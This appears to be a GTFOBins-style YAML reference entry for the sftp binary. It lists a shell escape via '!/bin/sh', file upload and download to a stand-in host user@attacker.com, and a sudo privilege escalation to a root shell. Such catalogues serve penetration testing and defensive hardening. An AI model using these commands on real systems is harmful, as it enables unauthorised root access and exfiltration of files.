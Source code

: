 ```yaml
---
name: sftp
functions:
  shell:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/bin/sh
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send file_to_save
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get file_to_save
  sudo:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/bin/sh
---
```

